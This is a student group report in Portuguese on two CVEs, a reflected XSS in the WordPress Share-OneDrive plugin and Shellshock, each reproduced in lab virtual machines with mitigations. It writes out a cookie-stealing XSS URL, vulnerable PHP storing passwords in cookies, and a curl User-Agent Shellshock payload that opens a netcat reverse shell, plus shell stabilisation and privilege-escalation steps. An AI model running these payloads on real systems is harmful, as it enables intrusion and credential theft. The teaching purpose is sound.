# Trabalho de Grupo de Cibersegurança
## Engenharia de Sistemas e Tecnologias Informáticas

---

## Introdução

Este relatório tem como objetivo identificar, percecionar, prevenir e mitigar vulnerabilidades que podem ser detetadas em redes informáticas, sistemas, gestão de identificação, aplicações web, aplicações em si e vulnerabilidades de integridade de dados.

Para este trabalho, foram selecionadas duas vulnerabilidades críticas para análise aprofundada:

1. **Reflected XSS na funcionalidade de pesquisa do WordPress - WP Cloud Plugins Share-OneDrive (CVE-2021-42548)** 

As vulnerabilidades XSS (Cross-Site Scripting) representam uma das maiores ameaças em aplicações web, permitindo que atacantes injetem código malicioso que é executado no navegador das vítimas. O XSS não visa diretamente servidores ou hosts, mas sim os clientes que utilizam esses servidores, tornando-o particularmente perigoso em ambientes com múltiplos utilizadores.

2. **[Segunda Vulnerabilidade - A Definir]**


### Metodologias de Deteção Utilizadas

Para a identificação e análise destas vulnerabilidades, foram utilizadas as seguintes metodologias:

- **Análise de CVE (Common Vulnerabilities and Exposures)**: Pesquisa em bases de dados públicas de vulnerabilidades, nomeadamente no site NVD (National Vulnerability Database), cortesia do Instituto Nacional de Padrões e Tecnologia do EUA.

- **Testes de Penetração**: Simulação de ataques XSS em ambientes controlados.

- **Análise de Código-Fonte**: Revisão do código para identificar falhas de validação e sanitização de entradas
- **Ferramentas Automatizadas**: Utilização de scanners de vulnerabilidades web
- **Testes Manuais**: Injeção de cargas úteis XSS personalizadas para confirmar a exploração

---

## Vulnerabilidade 1: Reflected XSS no WordPress WP Cloud Plugins Share-OneDrive

### Apresentação da Vulnerabilidade

**Identificação:**
- **CVE ID**: CVE-2021-42548
- **Plugin Afetado**: WP Cloud Plugins Share-OneDrive
- **Versões Vulneráveis**: Todas as versões anteriores à 1.15.3 (≤ 1.15.2)
- **Plataforma**: WordPress
- **Tipo de Vulnerabilidade**: Reflected Cross-Site Scripting (XSS)
- **Severidade**: CVSS base score 4.7 – Medium

**Sistemas Afetados:**

Esta vulnerabilidade afeta qualquer site WordPress que utilize o plugin WP Cloud Plugins Share-OneDrive nas versões vulneráveis. O plugin é utilizado para integração com o Microsoft OneDrive, permitindo partilhar e gerir ficheiros diretamente através do WordPress.

**Deteção:**

- **Onde:**
    Na funcionalidade de pesquisa (search functionality) do plugin Share-one-Drive (WP Cloud Plugins) para WordPress, onde havia validação insuficiente dos dados de entrada. 
    
    A vulnerabilidade foi reportada e registada no âmbito do Switzerland Government Common Vulnerability Program / NCSC (National Cyber Security Centre da Suíça), que aparece como fonte oficial do CVE.
    
    
- **Quando:**
   A vulnerabilidade foi publicamente divulgada a 13 de dezembro de 2021, data usada tanto pela NVD (National Vulnerability Database) como pelo NCSC da Suíça e outras bases de dados (CVE Details, WPScan).
   

****

**Ações, Objetivos e Resultados de Exploração:**

Analisando a descrição do CVE (Common Vulnerabilities and Exposures), percebemos que esta vulnerabilidade se tratava da capacidade de utilizadores inautenticados conseguirem fazerem ataques de Reflected Cross-Side Scripting, também conhecido como Reflected XSS.

O Reflected XSS permite que um atacante execute código JavaScript malicioso nos Web-Browsers  de utilizadores legítimos através de URLs manipulados. Os objectivos típicos incluem:

- **Roubo de Credenciais**: Captura de cookies de sessão e tokens de autenticação
- **Phishing**: Apresentação de formulários falsos para roubo de dados
- **Redirecionamento Malicioso**: Envio de utilizadores para sites maliciosos
- **Manipulação de Conteúdo**: Alteração do conteúdo apresentado ao utilizador
- **Propagação de Malware**: Distribuição de código malicioso através de downloads automáticos

Quando explorada com sucesso, esta vulnerabilidade permite:

1. Execução de código JavaScript arbitrário no contexto do site WordPress
2. Acesso a informações sensíveis do utilizador, incluindo cookies e dados de sessão
3. Realização de ações em nome do utilizador autenticado
4. Comprometimento da confiança dos utilizadores no site
5. Possível escalada para ataques mais sofisticados, como BeEF (Browser Exploitation Framework)

### Exploração da Vulnerabilidade

Para explorar esta vulnerabilidade, temos duas máquinas virtuais diferentes a rodar no Oracle Virtual Box, de forma a replicar sistemas operativos:

- Kali Linux: - a <span style="color:red">  máquina atacante</span>.
- Windows 11: - a <span style="color:teal"> máquina vitima</span>.

#### 1º Cenário - Simples

Neste, cenário temos a máquina Kali Linux a hospedar um website simples (share-one-drive.php) com uma caixa de texto, que neste caso permite executar código JavaScript. Ora vejamos:

A primeira coisa a entender é o IP de cada máquina:



- IP da Kali Linux: - a <span style="color:red">  10.0.2.15 </span>
- IP da Windows 11: - a <span style="color:teal"> 10.0.2.3 </span>

Eis a composição do site "share-one-drive.php":




Executando o servidor Apache na máquina Kali Linux, com o comando **"sudo service apache2 start"**, a máquina Windows consegue aceder ao tal website através do seu IP + /caminho_para_site:



O objetivo deste site aparente ser simplesmente imprimir o texto que foi escrito na caixa de texto "Procurar".

No entanto, a vulnerabilidade reside na linha `echo "Você procurou por: " . $_GET['s'];`.
Quando o utilizador insere um texto normal (e.g. "teste"), o output é seguro:



Mas quando se insere um código, (e.g. `<script>alert(1)</script>`) o output gerado é:



Esta é a essência do Reflected XSS; O facto de ter aberto uma janela pop up (alert em Javascript) a mostrar um texto é uma representação bastante simplificada de Reflected XSS -  um script malicioso é injetado através de um request do utilizador e é "refletido" de volta na resposta do servidor, executando-se no navegador da vítima. 

Para mitigar a vulnerabilidade neste cenário, alterávamos a linha de código indentificada para:

`echo "Você procurou por: "` **`htmlspecialchars($_GET['s'])`**`;`

Neste caso, foi apenas um alerta, mas vejamos outros cenários mais preocupantes.

#### 2º Cenário - Roubo de Credenciais através de Cookies

Neste cenário, a máquina Kali Linux hospeda um sistema de login vulnerável (login.html e dashboard.php) que armazena credenciais de forma insegura em forma de cookies. O objetivo é demonstrar como um atacante pode utilizar Reflected XSS para roubar sessões completas de utilizadores, incluindo usernames e passwords.

##### Composição dos Ficheiros Vulneráveis

**Ficheiro login.html:**








O utilizador entraria neste website, preenche as credencias de login e posteriormente é levado para outra página (dashboard.php).

Após o login bem-sucedido, o sistema cria vários cookies, incluindo os perigosos cookies com as credenciais

O problema é o facto de os dados serem guardados em forma de cookies - ficheiros de texto usados pela Internet para guardar info qualquer tipo de informação.



Abrindo o DevTools do WebBrowser (tipicamente clicando na tecla F12), conseguimos ver a informação guardada em forma de cookie. Passwords normalmente não são guardadas como cookies devido à sensibilidade do tipo de informação, mas preferências de utilizador, outros dados de sessão e autenticação, informação de formulários, entre outros dados tipicamente são guardados como cookies.

Esta informação é recolhida e vendida bastantes vezes, sendo que empresas de anúncios frequentemente obtém estes dados de forma a melhorar o seus negocios. 

Vejamos a implicação de guardar informação em forma de cookie no contexto de Reflected XSS.

**Estrutura HTML do ficheiro dahsboard.php:**



**Estrutura PHP do ficheiro dahsboard.php (secção crítica):**



A vulnerabilidade crítica reside na prática extremamente insegura:

1. **Armazenamento de passwords em cookies** (linhas onde se cria o cookie `user_password`):
```php
   setcookie("user_password", $password, time() + 3600, "/");
```

##### Execução do Ataque

**Passo 1: Iniciar o Servidor Apache e o Servidor de Captura**

Na máquina Kali Linux, executamos o seguinte comando:

```bash
python3 -m http.server 8000
```

O servidor Python (porta 8000) será usado para capturar os cookies roubados.


**Passo 2: Construção do Payload Malicioso**

```
http://10.0.2.15/dashboard.php?s=%3Cscript%3Ewindow.location%3D%27http%3A%2F%2F10.0.2.15%3A8000%2F%3Fcookie%3D%27%2Bdocument.cookie%3C%2Fscript%3E
```

Este payload faz com que o navegador da vítima execute JavaScript que:
1. Captura todos os cookies da sessão (`document.cookie`)
2. Redireciona para o servidor do atacante enviando os cookies como parâmetro

**Passo 3: Envio do Link Malicioso**

O atacante envia este link para a vítima através de engenharia social (email, mensagem, etc.). Quando a vítima clica no link, o servidor Python na máquina Kali Linux recebe um pedido GET contendo TODOS os cookies:




O atacante agora possui:
- **Username**: NOVO-UTILIZADOR (cookie `usuario_logado`)
- **Password**: NOVA-PASSWORD (cookie `user_password`)
- **Token de sessão**: (cookie `session_token`)
- **Session ID**: (cookie `PHPSESSID`)

##### Gravidade da Vulnerabilidade

Este cenário demonstra uma vulnerabilidade de **severidade crítica** que combina:

1. **Reflected XSS**: Permite execução de código JavaScript arbitrário
2. **Armazenamento inseguro de credenciais**: Passwords guardadas em texto plano em cookies
3. **Falta de proteção HTTPOnly**: Cookies acessíveis via JavaScript
4. **Falta de proteção Secure**: Cookies transmitidos sem HTTPS

Com estas informações, o atacante pode:
- Fazer login como a vítima em qualquer momento
- Aceder a todas as funcionalidades da conta
- Modificar dados do utilizador
- Realizar ações em nome da vítima

##### Mitigação das Vulnerabilidades

Para corrigir estas vulnerabilidades, seria necessário implementar várias camadas de segurança:

**1. Sanitização do Input (Correção do XSS):**
```php
echo htmlspecialchars($search_param, ENT_QUOTES, 'UTF-8');
```

**2. NUNCA armazenar passwords em cookies:**
```php
// REMOVER completamente estas linhas:
// setcookie("user_password", $password, time() + 3600, "/");
// setcookie("remember_password", $password, time() + (86400 * 30), "/");
```

**3. Usar hashing de passwords:**
```php
$hashed_password = password_hash($password, PASSWORD_DEFAULT);
// Armazenar apenas o hash na base de dados, NUNCA a password original
```

**4. Implementar flags de segurança nos cookies:**
```php
setcookie("session_token", $token, [
    'expires' => time() + 3600,
    'path' => '/',
    'secure' => true,      // Apenas HTTPS
    'httponly' => true,    // Não acessível via JavaScript
    'samesite' => 'Strict' // Proteção CSRF
]);
```

**5. Implementar Content Security Policy (CSP):**
```php
header("Content-Security-Policy: default-src 'self'; script-src 'self'");
```

**6. Validação server-side:**
```php
if (!preg_match('/^[a-zA-Z0-9_]+$/', $username)) {
    die("Username inválido");
}
```

## Vulnerabilidade 2: GNU Bash OS Command Injection Vulnerability - CVE-2014-6278

### Apresentação da Vulnerabilidade

**Identificação:**
- **CVE ID**: CVE-2014-6278
- **Sistema/Aplicação Afetada**: GNU Bash (Bourne Again Shell)
- **Versões Vulneráveis**: Versões do Bash até à 4.3
- **Plataforma** : Sistemas operativos que utilizem GNU Bash como shell
- **Tipo de Vulnerabilidade**: Injeção de Comandos / Execução Remota de Código (RCE)
- **Severidade**: Crítica (CVSS v2: 10.0 / CVSS v3: 9.8)

**Sistemas Afetados:**

A vulnerabilidade afeta sistemas operativos baseados em Unix/Linux (como Debian, Ubuntu, CentOS, RedHat) e macOS que utilizam o Bash como interpretador de comandos padrão. No contexto deste trabalho, o sistema afetado foi a VM Pentester Lab (Debian Wheezy 32-bit) a correr um servidor web Apache configurado para executar scripts CGI (/cgi-bin/status).

**Deteção:**

- **Onde:**
    Na implementação do interpretador de comandos GNU Bash, mais concretamente na forma como o Bash trata funções definidas em variáveis de ambiente. Esta vulnerabilidade é uma variante da falha conhecida como Shellshock, permitindo injeção de comandos no sistema operativo quando Bash é chamado por serviços que recebem dados externos.
    
- **Quando:**
    Foi identificada e documentada em setembro de 2014, pouco depois da divulgação inicial do Shellshock (CVE-2014-6271).

****

**Ações, Objetivos e Resultados de Exploração:**

O objetivo do atacante é explorar o processamento incorreto de variáveis de ambiente pelo Bash. Ao injetar código malicioso, o atacante pretende:

1. Executar comandos arbitrários no servidor remoto sem autenticação.

2. Obter acesso inicial ao sistema (Shell).

3. Estabelecer uma conexão reversa (Reverse Shell).

4. Escalar privilégios para obter controlo total (Root).

**Resultados de Exploração:**

Quando explorada com sucesso, a vulnerabilidade permite ao atacante executar qualquer comando com os privilégios do utilizador que corre o serviço (neste caso pentesterlab). Isto resulta no compromisso total da confidencialidade, integridade e disponibilidade do sistema, permitindo a leitura de ficheiros sensíveis (/etc/shadow), modificação de dados ou instalação de backdoors.

### Exploração da Vulnerabilidade

**Como Atua a Vulnerabilidade:**

O "Shellshock" explora uma falha na forma como o Bash processa definições de funções passadas através de variáveis de ambiente. O Bash permite exportar funções, mas, nas versões vulneráveis, ele continuava a processar e executar código que fosse colocado após o fecho da definição da função. A assinatura do ataque é () { :; };, seguida do comando malicioso. Num servidor web com CGI, cabeçalhos HTTP como o User-Agent são convertidos em variáveis de ambiente, permitindo a injeção direta.

**Como Explorar a Vulnerabilidade:**

1. Reconhecimento (Descoberta do Alvo): Identificação do IP da vítima na rede local utilizando varrimento de rede.

```php
sudo nmap -sn 10.0.2.0/24
```  

.png)

2. Verificação (Reconnaissance): Confirmação de que o script CGI existe e está acessível.

```php
curl -I http://10.0.2.4/cgi-bin/status
```
***-I*** → Head request


.png)

3. Exploração e Acesso Inicial (Reverse Shell): Injeção do payload malicioso no cabeçalho User-Agent para forçar o servidor a conectar-se ao atacante (Kali) via Netcat.

No Atacante (Listener):
```php
nc -lvnp 4444
```
***-l*** → listen

***-v*** → verbose (mostrar mais detalhes)

***-n*** → não fazer DNS lookup (usar só números IP)

***-p*** 4444 → porta TCP em que o NetCat onde vai ouvir  

_(4).png)

Disparo do Exploit:

```php
curl -H "User-Agent: () { :; }; echo; /usr/bin/nc 10.0.2.200 4444 -e /bin/bash" http://10.0.2.4/cgi-bin/status
```
***-e /bin/bash*** → Anexa um shell ao NetCat (reverse shell)

.png)
.png)
.png)

4. Estabilização e Escalada de Privilégios: Após obter a shell como utilizador pentesterlab, a shell foi estabilizada e os privilégios foram elevados para root explorando permissões de sudo ou vulnerabilidades de Kernel.

```php
python -c 'import pty; pty.spawn("/bin/bash")'
sudo -s
# (Ou via Kernel Exploit Dirty COW se necessário)
```



### Mitigação da Vulnerabilidade

**Medidas de Proteção:**

1. Atualização do Bash (Patching): A medida mais eficaz é atualizar o GNU Bash para a versão mais recente que contém a correção para o CVE-2014-6278 e variantes subsequentes.

```php
sudo apt-get update && sudo apt-get install --only-upgrade bash
```

2. Configuração de WAF (Web Application Firewall): Implementar regras no WAF (como ModSecurity) para filtrar e bloquear pedidos HTTP que contenham a assinatura do exploit: () { :; };.

3. Desativação de CGI: Se não for estritamente necessário, desativar o suporte a scripts CGI no servidor web para reduzir a superfície de ataque.

4. Princípio do Menor Privilégio: Garantir que o utilizador do serviço web (pentesterlab) não tem permissões de sudo desnecessárias e não tem acesso de escrita em diretórios sensíveis.

---

## Conclusões

### Enquadramento com a Aprendizagem da UC

Este trabalho permitiu aplicar na prática os conceitos teóricos sobre vulnerabilidades XSS, nomeadamente:

**Conhecimentos Aplicados sobre XSS:**

1. **Compreensão dos Tipos de XSS**: Existem principalmente três tipos de XSS - Reflected, Stored e DOM-based. Neste trabalho, analisámos em profundidade o Reflected XSS, que não armazena a carga útil no servidor mas requer que a vítima clique numa ligação manipulada.

2. **Metodologias de Teste**: Aplicámos técnicas práticas de teste de vulnerabilidades, incluindo:
   - Testes básicos com `<script>alert()</script>`
   - Técnicas de contorno usando maiúsculas/minúsculas
   - Inspecção de código-fonte para identificar contextos de injeção
   - Manipulação de elementos HTML através de ferramentas de desenvolvimento

3. **Análise de Filtros e Sanitização**: Compreendemos como diferentes níveis de segurança implementam filtros distintos, e como técnicas de evasão podem contornar protecções inadequadas.

4. **Impacto Real**: Reconhecemos que XSS não é apenas uma vulnerabilidade teórica - tem impacto real em utilizadores finais, permitindo roubo de credenciais, sessões e dados sensíveis.

### O Que Depreendemos das Vulnerabilidades

**Lições Principais:**

1. **Validação de Entrada é Crítica**: A maioria das vulnerabilidades XSS resulta de falha em validar e sanitizar adequadamente entradas do utilizador. Nunca devemos confiar em dados provenientes do cliente.

2. **Defesa em Profundidade**: Uma única camada de protecção não é suficiente. É necessário implementar múltiplas camadas: validação de entrada, codificação de saída, CSP, WAF, cookies seguros, etc.

3. **Actualizações São Essenciais**: O CVE-2021-42548 demonstra como vulnerabilidades em plugins de terceiros podem comprometer toda a segurança de um site. Manter sistemas actualizados é fundamental.

4. **Contexto Importa**: A mesma técnica de mitigação não funciona em todos os contextos. É necessário entender onde a entrada é reflectida (HTML, JavaScript, atributos, JSON) para aplicar a protecção adequada.

5. **Educação e Consciencialização**: Aspectos técnicos são importantes, mas a educação dos utilizadores para não clicarem em ligações suspeitas é igualmente crucial na prevenção de ataques XSS reflectidos.

6. **Impacto nos Utilizadores Finais**: XSS tem consequências reais - roubo de identidade, perda de dados, comprometimento de contas. Como profissionais de cibersegurança, temos responsabilidade em proteger os utilizadores.

---

### Enquadramento com a Aprendizagem da UC

Este trabalho permitiu aplicar na prática os conceitos teóricos sobre vulnerabilidades de infraestrutura e execução remota de código (RCE), nomeadamente:

**Conhecimentos Aplicados sobre Shellshock e RCE:**

1. **Compreensão da Execução Remota:** Analisámos como o Shellshock (CVE-2014-6278) explora o processamento incorreto de variáveis de ambiente pelo Bash, permitindo a injeção de comandos arbitrários através de vetores HTTP (como o cabeçalho User-Agent).

2. **Interação Web-Sistema Operativo:** Compreendemos na prática como scripts CGI (Common Gateway Interface) atuam como ponte entre um pedido web e a shell do sistema operativo, criando a superfície de ataque necessária.

3. **Metodologias de Teste e Exploração:** Aplicámos um ciclo completo de Penetration Testing, incluindo:

***Reconhecimento de Rede:*** Utilização de ferramentas como nmap e netdiscover para identificar hosts ativos e portas abertas num ambiente de caixa negra (Black Box).

***Exploração Manual:*** Manipulação de cabeçalhos HTTP com o curl para injetar payloads maliciosos (() { :; };) sem depender de ferramentas automáticas.

***Reverse Shells***: Estabelecimento de persistência e controlo remoto utilizando netcat (nc), compreendendo a diferença entre bind shells e reverse shells.

***Pós-Exploração:*** Técnicas de estabilização de shell com Python e métodos de escalada de privilégios, tanto por má configuração (sudo) como por exploração de Kernel (Dirty COW).

**O Que Depreendemos das Vulnerabilidades**

Lições Principais:

1. **O Perigo de Componentes Legacy:** A vulnerabilidade explorada reside num componente fundamental do sistema operativo (Bash) e não na aplicação web em si. Isto demonstra que mesmo um código web seguro pode ser comprometido se a infraestrutura subjacente estiver desatualizada.

2. **Validação de Input é Universal:** Tal como no XSS, o Shellshock ocorre porque o sistema confia cegamente na entrada externa (variáveis de ambiente). A sanitização deve ocorrer em todas as camadas, não apenas no browser.

3. **Escalada de Privilégios é Crítica:** O acesso inicial como pentesterlab é limitado. A verdadeira severidade do ataque revelou-se na fase de pós-exploração, onde demonstrámos que uma má configuração de sudo ou um Kernel antigo (Dirty COW) permitem a um atacante assumir o controlo total (root) da máquina.


### Reflexão Final

A análise destas vulnerabilidades reforçou a importância de uma abordagem proativa à segurança. Não basta corrigir vulnerabilidades após serem descobertas - é necessário incorporar segurança desde o design (Security by Design) e realizar auditorias regulares.

O estudo do CVE-2021-42548 demonstrou como vulnerabilidades em componentes de terceiros (plugins WordPress) podem afetar drasticamente a segurança de toda a aplicação. Isto sublinha a necessidade de due diligence ao escolher dependências externas e de manter um inventário atualizado de todos os componentes utilizados.

Finalmente, este trabalho evidenciou que cibersegurança é um campo em constante evolução, requerendo aprendizagem contínua e adaptação a novas ameaças e técnicas de ataque.

---

A análise do CVE-2014-6278 reforçou a importância crucial da Gestão de Patches e da manutenção de sistemas. Ao contrário de vulnerabilidades de aplicação que afetam um site específico, o Shellshock afetou milhões de servidores globais devido à omnipresença do Bash.

Este trabalho evidenciou a diferença entre segurança de aplicação e segurança de infraestrutura. Enquanto o XSS compromete o utilizador, o Shellshock compromete o servidor inteiro. O estudo prático da escalada de privilégios (passando de um utilizador de serviço para Root) demonstrou o conceito de "Kill Chain": um atacante raramente para na primeira porta que abre; o objetivo é sempre a persistência e o controlo administrativo máximo.

Finalmente, concluímos que a segurança ofensiva requer adaptabilidade. Quando o brute-force falha, tenta-se um exploit de Kernel; quando a compilação falha, procura-se por configurações incorretas. Esta mentalidade de resolução de problemas é a base da cibersegurança profissional.

---

**Relatório desnenvolvido por:**
- 
- Lucas Machadinho Martins - 79294 - a79294@ualg.pt
- Pedro Daniel Gonçalves - 79297 - a79297@ualg.pt
